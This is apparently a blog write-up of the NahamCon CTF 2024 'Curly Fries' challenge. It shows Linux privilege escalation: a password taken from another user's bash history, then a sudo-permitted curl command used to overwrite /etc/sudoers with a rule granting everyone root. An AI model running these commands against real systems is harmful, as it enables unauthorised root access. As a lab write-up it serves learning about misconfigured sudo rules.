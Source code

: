 ---
title: NahamCon CTF 2024 - Curly Fries
description: じゃがりこは近いかな　これしか持ってないから
tags: [ "ctf", "ctf:misc" ]
pubDate: '2025-03-27T17:54:21Z'
cover: header.png
---


*Moving all of my past CTF write-ups to this website...*


## Challenge
<Image src={challenge} alt="challenge featuring ssh login" />

While this challenge was probably child's play for those more experienced,
I found it rather amusing and fun, hence the simple writeup!
I have never tried privilege escalation on Linux, so these few challenges have been really enlightening.
Here, we're given access to an unprivileged user via SSH, and we need to run some program in the root user's home.
As expected, we don't have access to that directory.

## Analysis
```
user@curlyfries:~$ ls -la /
...
drwx------    1 root     root          4096 May 24 16:39 root
```

First, I personally like to see what users are on the machine.

```
user@curlyfries:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/ash
user:x:1000:1000:Linux User,,,:/home/user:/home/user/.user-entrypoint.sh
fry:x:1001:1001:Linux User,,,:/home/fry:/bin/bash
```

Let's see what `fry` has up his sleeve.

```
user@curlyfries:~$ ls -la /home/fry
total 24
drwxr-sr-x    1 fry      fry           4096 May 24 16:39 .
drwxr-xr-x    1 root     root          4096 May 24 16:39 ..
-rw-r--r--    1 fry      fry            118 May 24 16:39 .bash_history
-rwxr-xr-x    1 fry      fry           3850 May 24 16:39 .bashrc
-rw-r--r--    1 fry      fry             17 May 24 16:39 .profile
```

Oh look, some history!

```
user@curlyfries:~$ cat /home/fry/.bash_history
pwd
whoami
cd /tmp
date
sshpas
sshpass
sshpass -p iLoveCurlyFriesYumYumInMyTumTum ssh fry@localhost
sl
ls
ls -la
exit
```

So we got the account's password that we can `ssh` into.

One thing I learned from the challenges this CTF is the power of `sudo -l`,
showing what sudo commands can be run by the user.

```
fry@curlyfries:~$ sudo -l
User fry may run the following commands on curly-fries-e7b3c9edfada5ee9-7b8b9c5444-sj76c:
    (root) NOPASSWD: /usr/bin/curl 127.0.0.1\:8000/health-check*
```

Even without knowing the root password, we can run run `curl` as long as it starts with the above parameters.
Taking a look at the help text, we it doesn't look like we can execute stuff,
so we need to do a little bit more after some magical invocation of `curl` to get the flag.
With some random experimentation, I learned that curl allows dealing with multiple urls and ouputs,
which is just what we need, since we have an uncontrollable url that will serve us no purpose.

## Exploit
In order to be able to execute programs other than special invocations of `curl` as root,
we can try modifying `/etc/sudoers` via `curl` and its output parameter.
Since I'm curious about what the file looks like, let's first grab a copy.

```
fry@curlyfries:~$ sudo curl 127.0.0.1\:8000/health-check -o noop --url file:///etc/sudoers -o /home/fry/orig
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0curl: (7) Failed to connect to 127.0.0.1 port 8000: Connection refused
100  3311  100  3311    0     0  3233k      0 --:--:-- --:--:-- --:--:-- 3233k

fry@curlyfries:~$ tail -n 10 orig
## Uncomment to allow any user to run sudo if they know the password
## of the user they are running the command as (root by default).
# Defaults targetpw  # Ask for the password of the target user
# ALL ALL=(ALL) ALL  # WARNING: only use this together with 'Defaults targetpw'

## Read drop-in files from /etc/sudoers.d
## (the '#' here does not indicate a comment)
#includedir /etc/sudoers.d
user ALL=(fry) NOPASSWD: /usr/bin/curl 127.0.0.1\:8000/health-check
fry ALL=(root) NOPASSWD: /usr/bin/curl 127.0.0.1\:8000/health-check*
```

Seems normal! Since this file isn't writable by our less-privileged user, let's copy it, modify it, and place it back where it belongs.

```
fry@curlyfries:~$ cp orig fries
fry@curlyfries:~$ echo "ALL ALL=(root) NOPASSWD: ALL" >> fries
fry@curlyfries:~$ sudo curl 127.0.0.1\:8000/health-check -o noop --url file:///home/fry/fries -o /etc/sudoers
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0curl: (7) Failed to connect to 127.0.0.1 port 8000: Connection refused
100  3340  100  3340    0     0  3261k      0 --:--:-- --:--:-- --:--:-- 3261k
fry@curlyfries:~$ sudo su
root@curlyfries:/home/fry#
```

Guess who's got root! 💪 Let's grab our flag!

```
root@curlyfries:/home/fry# ls /root
get_flag_random_suffix_1765252717274
root@curlyfries:/home/fry# /root/get_flag_random_suffix_1765252717274
Please press Enter within one second to retrieve the flag.

flag{36fa4a94c4c3806b19c496a31859eff0}
root@curlyfries:/home/fry#
```
